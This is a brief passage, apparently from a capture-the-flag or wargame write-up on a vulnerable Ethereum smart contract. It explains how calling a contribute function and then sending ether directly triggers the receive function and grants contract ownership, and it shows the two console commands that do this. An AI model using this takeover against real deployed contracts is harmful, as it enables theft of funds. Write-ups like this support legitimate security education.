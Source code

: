 We can contribute to the contract using the contribute payable function and later perform a transaction to send some ether to the contract and it would trigger the receive payable function and pass the require checks and gain the ownership of the contract.

```
await contract.contribute({value: 1})
await contract.sendTransaction({from: player, value: 1})
```